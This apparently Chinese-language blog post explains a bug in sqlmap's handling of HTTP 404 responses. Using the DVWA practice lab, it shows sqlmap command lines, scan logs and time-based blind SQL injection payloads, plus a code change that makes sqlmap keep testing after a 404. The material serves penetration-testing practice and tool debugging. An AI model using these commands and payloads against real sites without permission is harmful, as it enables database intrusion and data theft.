 ```yaml
---
layout:     post
title:      sqlmap对状态码404处理的bug
date:       2017-08-20
summary:    sqlmap对状态码404处理的bug
categories: web
tags:
 - sqlmap
 - python
---
```


### About

sqlmap对页面遇到404响应码后直接抛出一个异常并退出sqlmap不再进行后续的paylaod测试,在用sqlmap测试sql注入点的时候,一
般用到`--batch`参数来节省时间,这种情况下sqlmap有一处对http状态码404的处理不当导致无法测出注入点的bug

### Detail

在爬虫时get请求的url可轻易爬到,但是post请求的url及post的数据的取得需要探测html中有没有表单相关的关键字,并通过表单
来构造post参数的值并提交来获取后续返回内容,如下例中详情:

安装dvwa设置level=low,测试`SQL Injection(Blind)`这一项时,参数是通过表单来提交的,点击`submit`提交后会将输入框`User
ID`中的内容以get请求发送到服务器,例如在文本框中输入1则浏览器将对应访问`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#`

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/sqlmap404bug-1.png">

尝试用sqlmap跑出这个注入点,语句如下:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low'

这样是可以跑出来的,但是要提高效率用工具自动发现这个漏洞时,一般这样用sqlmap:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='...'

由于这里的id参数的值通过爬虫无法获得,因为这个id参数的值是通过表单提交的,爬虫最多可得到的url为:
    
    http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#

上图中的`Submit`按钮对应的应该是js处理的动作,js将表单通过get请求发送到服务器,这种情况下,需要用selenium+phantomjs
来获得上面的url(或者使用sqlmap中的--forms参数来捕获这样的表单),而就算得到了url,由于这个url中的`id=`,也即id值为空,
这种情况下,sqlmap的--batch参数的处理是随机赋值给id并测试各种payload(eg,id=1389),然而dvwa中的这个页面在服务器上的
处理并不一般,如果用户提交的id参数在服务器上没有查询到,服务器会响应404状态码(可能一般waf也会这样做),而sqlmap遇到
404状态码,直接就抛出异常并退出了,这样导致无法用sqlmap的--batch参数测出这个sql注入点

其实如果用selenium+phantomjs得到了url`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#`后
如果服务器正常响应查询(这里的dvwa不正常响应,对查不到的统一返回404状态码),用sqlmap是可以检测到这种不带具体值的参数
类型url的注入点的,但是要设置--risk=3,默认的sqlmap的risk值为1,为1时sqlmap不会测试`' or [sqli] and '1'='1`(要测出不
带参数值的参数的注入点则要通过`or`来测试),也即要发挥sqlmap的功能最好设置`--batch --risk=3 --forms`.试试直接用这种
方法测试上面的注入点(在dvwa中对应的页面为`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/`):

```
/tmp/sqlmap [master] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.8.6#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:40:30

[14:40:30] [DEBUG] cleaning up configuration parameters
[14:40:30] [DEBUG] setting the HTTP timeout
[14:40:30] [DEBUG] setting the HTTP Cookie header
[14:40:30] [DEBUG] creating HTTP requests opener object
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [INFO] testing connection to the target URL
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [INFO] searching for forms
[14:40:30] [DEBUG] initializing the knowledge base
[#1] form:
GET http://192.168.8.190:80/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit
Cookie: PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low
do you want to test this form? [Y/n/q]
> Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
Edit GET data [default: id=&Submit=Submit]: id=&Submit=Submit
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
do you want to fill blank fields with random values? [Y/n] Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
[14:40:30] [INFO] resuming back-end DBMS 'mysql'
[14:40:30] [INFO] using '/var/root/.sqlmap/output/results-08202017_0240pm.csv' as the CSV results file in multiple targets mode
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [CRITICAL] page not found (404)
[14:40:30] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[14:40:30] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/var/root/.sqlmap/output/results-08202017_0240pm.csv'

[*] shutting down at 14:40:30
```

发现sqlmap跑不出来,尝试修改sqlmap代码,结果中有关键字`page not found (404)`,于是定位相关代码:

    cd /tmp/sqlmap && grep -r "page not found" .

结果如下:

```
./lib/request/connect.py:                    errMsg = "page not found (%d)" % code
./lib/request/connect.py:                    debugMsg = "page not found (%d)" % code
./lib/utils/crawler.py:                    if "page not found" in getSafeExString(ex):
```

于是修改./lib/request/connect.py中代码:

```
elif ex.code == httplib.NOT_FOUND:
    if raise404:
        errMsg = "page not found (%d)" % code
        raise SqlmapConnectionException(errMsg)
    else:
        debugMsg = "page not found (%d)" % code
        singleTimeLogMessage(debugMsg, logging.DEBUG)
```

将其中的raise SqlmapConnectionException(errMsg)注释掉后再重新用刚才的sqlmap语句测试可测出这个注入点,详情如下:

```
/tmp/sqlmap [master●] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
[14:48:41] [DEBUG] checking for filtered characters
[14:48:41] [PAYLOAD] OOFt' OR 6597=IF((3988>3987),SLEEP(5),6597) AND 'sIjt'='sIjt
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
    ---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=OOFt' OR SLEEP(5) AND 'CaKs'='CaKs&Submit=Submit
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
    ---
do you want to exploit this SQL injection? [Y/n] Y
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
[14:49:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[14:49:06] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 131 times
[14:49:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file
'/var/root/.sqlmap/output/results-08202017_0246pm.csv'

[*] shutting down at 14:49:06
```
